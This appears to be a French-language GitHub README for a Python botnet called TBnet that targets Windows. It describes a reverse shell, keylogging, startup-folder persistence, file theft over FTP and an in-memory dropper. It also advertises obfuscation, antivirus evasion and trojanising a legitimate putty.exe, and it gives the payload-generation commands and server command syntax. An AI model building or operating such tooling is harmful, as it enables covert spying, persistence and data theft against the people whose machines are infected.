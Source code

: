 # TBnet
BotNet en python en développement, acctuelement le programme coter client et serveur fonctionne uniquement sous Windows.

## Prérequis
Fonctionne avec Python 3.7 uniquement.
Afficher version python :
```cmd
python --version
```
ou :
```cmd
py --version
```
Installer les requirement :
```cmd
pip install -r requirements.txt
```

## Fonctionnalité

Serveur peut gérer plusieur clients en même temps.

Fonction Reverse Shell.

Fonction Keylogger.

Fonction Persistance.

Fonction Download de fichier via un serveur FTP.

Stocke les informations recupérer des fichiers .json

Utilisation d'un droppeur pour charger le payload directement dans la mémoire vive, via le réseau

Aucune dépendance requise sur la machine cible meme pas python lui meme

Payload ne déclanche à priori aucun antivirus (NE PAS UPLOAD SUR VIRUSTOTAL)

## Utilisation
Lancer d'abort le serveur :
```cmd
python server.py
```
Génerer un payload :
```cmd
  -h, --help            show this help message and exit
  --host HOST           Ip du Server
  --port PORT           Port du Server
  --name NAME           Définir nom du fichier
  --persistance PERSISTANCE
                        Active la persistance automatique
  --freeze              compile le client dans un executable
  --hide-in-exe PATH_EXE
                        Cache un payload dans un exe sain
  --obf                 obfusque le code python
  --icon ICON           Ajoute une icon à l'éxecutable
  --admin               Demande une autorisation Administrateur au lancement
                        du programme
```

Exemple de commande :
Genere un fichier .exe
```cmd
python client.py --host 127.0.0.1 --freeze --name test
```
Genere une copi du fichier sain putty.exe comportant un payload
```cmd
python client.py --host 127.0.0.1 --hide-in-exe putty.exe
```

__Disclaimer__: Le payload est "compiler" via Nuitka

### Commande du server

help --- Afficher le menu d'aide.

shell <"id du client"> --- Ouvre un Reverse Shell sur la machine.

clients --- Afficher les information des machines clients.

Dans le Shell :

keylogger <"run/status/stop"> --- Run lance un keylogger sur la machine, status renvoi les données enregistrer, stop arete le keylogger.

persistance <"startup/reg/powershell"> --- Startup active la persistance sur la machine via le dossier startup de windows, reg active la persistance via clé de registre windows(pas encore fait), powwershell active la persistance via powershell(pas encore fait).

download <"Fichier à télécharger"> --- Télécharge le fichier depuis la machine infecté via FTP dans le dossier ftp de TBnet
